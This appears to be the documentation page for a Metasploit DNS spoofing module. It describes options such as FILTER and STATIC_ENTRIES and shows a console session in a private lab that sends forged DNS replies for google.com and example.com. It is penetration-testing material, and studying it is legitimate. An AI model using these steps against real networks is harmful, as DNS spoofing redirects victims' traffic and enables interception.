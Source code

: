 ## Vulnerable Application

This module provides a Rex based DNS service to resolve queries intercepted via the capture mixin. Configure
STATIC_ENTRIES to contain host-name mappings desired for spoofing using a hostsfile or space/semicolon separated
entries. In the default configuration, the service operates as a normal native DNS server with the exception of
consuming from and writing to the wire as opposed to a listening socket. Best when compromising routers or spoofing L2
in order to prevent return of the real reply which causes a race condition. The method by which replies are filtered is
up to the user (though iptables works fine).

## Verification Steps

1. Start msfconsole
1. Do: `use auxiliary/spoof/dns/native_spoofer`
1. Do: `run`

## Options

### DISABLE_NS_CACHE

Disable DNS response caching.

### DISABLE_RESOLVER

Disable DNS request forwarding.

### FILTER

The filter string for capturing traffic. This allows the module to, for example, only process requests made from a
target host or subnet.

### INTERFACE

The name of the interface to listen on.

### NS

Specify the nameservers to use for queries, space separated.

### SEARCHLIST

DNS domain search list, comma separated.

### STATIC_ENTRIES

DNS domain search list (hosts file or space/semicolon separate entries). Example: `1.2.3.4 example.com`

## Scenarios

### DNS Spoofing

```
msf auxiliary(spoof/dns/native_spoofer) > show options 

Module options (auxiliary/spoof/dns/native_spoofer):

   Name              Current Setting                       Required  Description
   ----              ---------------                       --------  -----------
   DISABLE_NS_CACHE  false                                 no        Disable DNS response caching
   DISABLE_RESOLVER  false                                 no        Disable DNS request forwarding
   DOMAIN                                                  no        The target domain name
   FILTER            dst port 53 and host 192.168.250.134  no        The filter string for capturing traffic
   INTERFACE                                               no        The name of the interface
   NS                192.168.250.4                         no        Specify the nameservers to use for queries, space separated
   Proxies                                                 no        A proxy chain of format type:host:port[,type:host:port][...]
   RPORT             53                                    yes       The target port (TCP)
   SEARCHLIST                                              no        DNS domain search list, comma separated
   SNAPLEN           65535                                 yes       The number of bytes to capture
   SRVHOST           192.168.250.160                       yes       The local host to listen on for DNS services.
   SRVPORT           53                                    yes       The local port to listen on.
   STATIC_ENTRIES    1.2.3.4 example.com                   no        DNS domain search list (hosts file or space/semicolon separate entries)
   THREADS           1                                     yes       Number of threads to use in threaded queries
   TIMEOUT           500                                   yes       The number of seconds to wait for new data


Auxiliary action:

   Name     Description
   ----     -----------
   Service  Serve DNS entries


msf auxiliary(spoof/dns/native_spoofer) > run
[*] Auxiliary module running as background job 2.
msf auxiliary(spoof/dns/native_spoofer) > SIOCSIFFLAGS: Operation not permitted
msf auxiliary(spoof/dns/native_spoofer) > 
[*] Caching response google.com:172.217.15.110 A
[+] Sent packet with header:
--EthHeader-----------------------------------
  eth_dst   50:eb:71:1a:59:8c PacketFu::EthMac
  eth_src   36:a6:88:92:60:5b PacketFu::EthMac
  eth_proto 0x0800            StructFu::Int16 
--IPHeader------------------------------------
  ip_v      4                 Integer         
  ip_hl     5                 Integer         
  ip_tos    0                 StructFu::Int8  
  ip_len    144               StructFu::Int16 
  ip_id     0x403c            StructFu::Int16 
  ip_frag   0                 StructFu::Int16 
  ip_ttl    64                StructFu::Int8  
  ip_proto  17                StructFu::Int8  
  ip_sum    0xc3a8            StructFu::Int16 
  ip_src    192.168.250.160   PacketFu::Octets
  ip_dst    192.168.250.134   PacketFu::Octets
--UDPHeader-----------------------------------
  udp_src   53                StructFu::Int16 
  udp_dst   39435             StructFu::Int16 
  udp_len   124               StructFu::Int16 
  udp_sum   0xeefc            StructFu::Int16 
------------------------------------------------------------------
00-01-02-03-04-05-06-07-08-09-0a-0b-0c-0d-0e-0f---0123456789abcdef
------------------------------------------------------------------
10 4a 81 80 00 01 00 01 00 04 00 00 06 67 6f 6f   .J...........goo
67 6c 65 03 63 6f 6d 00 00 01 00 01 c0 0c 00 01   gle.com.........
00 01 00 00 00 7a 00 04 ac d9 0f 6e c0 0c 00 02   .....z.....n....
00 01 00 00 40 b5 00 06 03 6e 73 32 c0 0c c0 0c   ....@....ns2....
00 02 00 01 00 00 40 b5 00 06 03 6e 73 31 c0 0c   ......@....ns1..
c0 0c 00 02 00 01 00 00 40 b5 00 06 03 6e 73 33   ........@....ns3
c0 0c c0 0c 00 02 00 01 00 00 40 b5 00 06 03 6e   ..........@....n
73 34 c0 0c                                       s4..
[+] Spoofed records for google.com to 192.168.250.134:39435
[+] Sent packet with header:
--EthHeader-----------------------------------
  eth_dst   50:eb:71:1a:59:8c PacketFu::EthMac
  eth_src   36:a6:88:92:60:5b PacketFu::EthMac
  eth_proto 0x0800            StructFu::Int16 
--IPHeader------------------------------------
  ip_v      4                 Integer         
  ip_hl     5                 Integer         
  ip_tos    0                 StructFu::Int8  
  ip_len    96                StructFu::Int16 
  ip_id     0x2ff2            StructFu::Int16 
  ip_frag   0                 StructFu::Int16 
  ip_ttl    64                StructFu::Int8  
  ip_proto  17                StructFu::Int8  
  ip_sum    0xd422            StructFu::Int16 
  ip_src    192.168.250.160   PacketFu::Octets
  ip_dst    192.168.250.134   PacketFu::Octets
--UDPHeader-----------------------------------
  udp_src   53                StructFu::Int16 
  udp_dst   38058             StructFu::Int16 
  udp_len   76                StructFu::Int16 
  udp_sum   0x00ab            StructFu::Int16 
------------------------------------------------------------------
00-01-02-03-04-05-06-07-08-09-0a-0b-0c-0d-0e-0f---0123456789abcdef
------------------------------------------------------------------
33 c8 81 20 00 01 00 01 00 00 00 01 07 65 78 61   3.. .........exa
6d 70 6c 65 03 63 6f 6d 00 00 01 00 01 c0 0c 00   mple.com........
01 00 01 00 00 00 00 00 04 01 02 03 04 00 00 29   ...............)
10 00 00 00 00 00 00 0c 00 0a 00 08 6f 59 ce 04   ............oY..
8e 13 7b 7d                                       ..{}
[+] Spoofed records for example.com to 192.168.250.134:38058
```
